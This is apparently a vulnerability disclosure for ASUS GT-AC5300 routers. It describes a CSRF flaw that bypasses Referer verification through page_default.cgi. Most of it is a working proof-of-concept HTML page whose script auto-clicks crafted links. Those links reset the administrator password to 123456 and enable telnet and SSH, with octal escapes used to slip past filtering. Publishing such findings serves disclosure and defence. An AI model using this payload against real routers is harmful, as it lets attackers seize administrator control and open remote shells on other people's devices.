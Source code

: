 # ASUS GT-AC5300 Referer verification bypassed CSRF#

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##
Cross-site request forgery (CSRF) vulnerability in the ASUS GT-AC5300 routers with firmware<=3.0.0.4.384_32738 allow remote attackers to hijack the authentication of administrators for requests that change the administrator password via a request to start_apply.htm . the Referer verification is using to block CSRF, but we can using page_default.cgi to bypass the referer verification.

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://router.asus.com]
1. login with admin
1. visit the page http://x.x.x.x/hack.html will change the admin password to 123456 and enable the sshd service 。the source code of hack.html: 
```
<script src="./jquery-1.4.1.min.js"></script>
    <script type="text/javascript">
        if (1) {
            var a = $("<a href='http://router.asus.com/page_default.cgi?url=start_apply.htm?action_mode=apply\\46action_\\163cript=restart_time\\46http_passwd=123456' target='_blank'>1</a>").get(0);
            var b =$("<a href='http://router.asus.com/page_default.cgi?url=start_apply.htm?action_mode=apply\\46action_\\163cript=restart_time\\46telnetd_enable=1\\46sshd_enable=1\\46sshd_pass=1' target='_blank'>2</a>").get(0);
            var e = document.createEvent('MouseEvents');

            e.initEvent('click', true, true);
            a.dispatchEvent(e);
            b.dispatchEvent(e);
        }
    </script>
```